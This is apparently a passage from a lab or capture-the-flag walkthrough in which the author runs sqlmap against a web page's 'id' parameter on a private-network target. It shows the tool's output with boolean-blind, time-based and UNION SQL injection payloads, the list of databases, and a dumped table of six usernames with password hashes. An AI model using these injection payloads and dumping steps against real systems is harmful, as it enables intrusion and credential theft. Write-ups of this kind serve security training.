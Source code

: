 ``` plain
sqlmap -u "http://192.168.80.152/index.html?page=blog&title=Blog&id=2" -p "id" --dbms=MySQL --dbs

[06:05:45] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=blog&title=Blog&id=2 AND 4151=4151

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: page=blog&title=Blog&id=2 AND (SELECT * FROM (SELECT(SLEEP(5)))tueL)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: page=blog&title=Blog&id=2 UNION ALL SELECT NULL,NULL,CONCAT(0x716a7a7671,0x61536d554d5745557253,0x7162716a71),NULL,NULL-- 
---
[06:05:45] [INFO] testing MySQL
[06:05:45] [INFO] confirming MySQL
[06:05:45] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL >= 5.0.0
[06:05:45] [INFO] fetching database names
available databases [6]:
[*] calendar
[*] ehks
[*] information_schema
[*] mysql
[*] roundcubemail
[*] test
```

I then looked at the ehks database, the interesting table contains usernames and password hashes:

``` plain
Database: ehks
Table: user
[6 entries]
+---------+-----------+----------------------------------+
| user_id | user_name | user_pass                        |
+---------+-----------+----------------------------------+
| 1       | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 |
| 2       | achen     | b46265f1e7faa3beab09db5c28739380 |
| 3       | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 |
| 4       | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 |
| 5       | sorzek    | 64d1f88b9b276aece4b0edcc25b7a434 |
| 6       | ghighland | 9f3eb3087298ff21843cc4e013cf355f |
+---------+-----------+----------------------------------+
```
